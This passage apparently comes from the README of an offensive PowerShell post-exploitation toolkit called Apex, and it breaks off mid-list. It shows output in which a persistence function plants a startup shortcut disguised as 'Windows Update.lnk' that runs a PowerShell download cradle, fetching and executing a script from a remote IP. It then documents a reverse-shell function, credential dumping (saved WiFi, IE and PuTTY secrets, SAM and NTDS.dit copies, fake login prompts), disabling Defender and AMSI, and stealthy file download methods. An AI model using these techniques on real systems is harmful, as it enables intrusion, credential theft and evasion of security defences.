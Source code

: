 ### Invoke-Persistence(StartupLnk) ###

 [+] Success! "Windows Update.lnk" Installed:
        C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows Update.lnk file.

 [+] LNK Target:
        C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop "IEX (New-Object Net.Webclient).downloadstring('http://192.168.42.89/script.ps1')"

### Invoke-Persistence(StartupLnk) ###
```

# Available Functions / Commands

## Invoke-Apex
```Invoke-Apex``` (Lists all available functions)

## Invoke-Connect
Transfers all Apex functionality to a remote SSL listener, and also functions as a non-interactive powershell reverse "shell" if invoked as a stand-alone cmdlet. (SSL-enabled listener is required)

Usage: ```PS> Invoke-Connect -ListenerIp 192.168.1.1 -ListenerPort 443```

## Invoke-Creds
Several commands to assist in obtaining credentials from the target host.

#### Available Commands:

```-WiFiCreds```  (Dumps saved Wireless Credentials)

```-IeCreds```    (Dumps saved IE credentials)

```-AuthPrompt``` (Invokes an authentication prompt to the target and captures any entered credentials)

```-PuttyKeys```  (Dumps any saved putty sessions/keys/passwords)

```-CopySAM```    (Utilizes Volume Shadow Copy to copy the SAM, SYSTEM and SECURITY files for offline parsing.)

```-CopyNtds```   (Utilizes Volume Shadow Copy to copy the NTDS.dit and SYSTEM files for offline parsing.)

## Invoke-DefenderTools
Several commands to assist in interacting with Windows Defender.
#### Available Commands:

```-GetExcludes``` (Gets any currently excluded files/paths/extensions from Windows Defender via the Registry)

```-AddExclude``` (Adds a Windows Defender exclude path. Requires elevation.)

```-DisableRtm``` (Disables Windows Defender Real-Time Monitoring. Requires elevation.)

```-DisableAmsi``` (Disables AMSI for the current PowerShell session.)

## Invoke-Download
Commands for downloading files to the target system.
#### Available Commands:

```-PsDownload``` (Downloads a file to the target system using a traditional powershell 'DownloadFile' cradle.)

```-CertUtil``` (Uses certutil to download a file to the target system.)

```-EsentUtl``` (Uses Esentutil.exe to download a file from a remote UNC Path.)

## Invoke-Execute
Execute commands on a target system using a number of different "living-off-the-land" techniques.
#### Available Commands:
```